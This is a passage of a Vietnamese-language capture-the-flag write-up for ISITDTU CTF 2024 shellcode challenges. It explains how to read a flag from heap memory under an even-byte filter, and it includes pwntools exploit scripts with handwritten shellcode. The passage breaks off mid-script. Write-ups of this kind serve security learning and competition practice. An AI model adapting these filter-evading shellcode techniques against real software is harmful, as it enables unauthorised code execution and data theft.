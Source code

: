 ```
    mov rax,0x14   // syscall
    syscall
        '''
input()
p.send(asm(shellcode))

p.interactive()
```


ref 

https://hackmd.io/@gEbY3Vf3Ro6zqZ0PqXKkOg/ry8mfEpgJl

preadv2 , pwritev2  : https://blog.pwnable.net/isitdtuctf2024_qual/#shellcode-2

mmap lại địa chỉ là writev flag : https://r3kapig-not1on.notion.site/ISITDTU-CTF-2024-Quals-Writeup-by-r3kapig-12cec1515fb9809eb4f5e3bd708e1a83


## shellcode2


- bài này cũng khá tương tự bài trước , read flag vào bss , tạo 1 vùng nhớ xong cho flag dô ( vùng này là heap)

![image](https://hackmd.io/_uploads/H1Fn7UX-ke.png)

- bị filter byte chẵn -> dùng byte lẻ 

- có 2 cách , dùng địa chỉ có sẵn tính ra offset chứa flag , xong biến đổi rồi write nó ra 

cách 2 : dùng syscall brk , thằng này sẽ trả về cuối của địa chỉ heap , xong tiếp tục tính địa chỉ base rồi in như cách 1 



script  : 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./challenge')

p = process()
gdb.attach(p,gdbscript='''
           b*main+244
           ''')
#p = remote('152.69.210.130', 3002)

offset_rsp_flag = 0x2c41

#shellcode 1 de dung dia chi tren stack va tim ra dia chi flag

shellcode = asm('''
                xor    ebx,ebx
                mov    bl,0x2d
                dec    ebx
                shl    ebx,0x7
                shl    ebx,0x1
                mov    bl,0x41
                pop    r9
                add    r9,rbx


                xchg   r9,rsi

```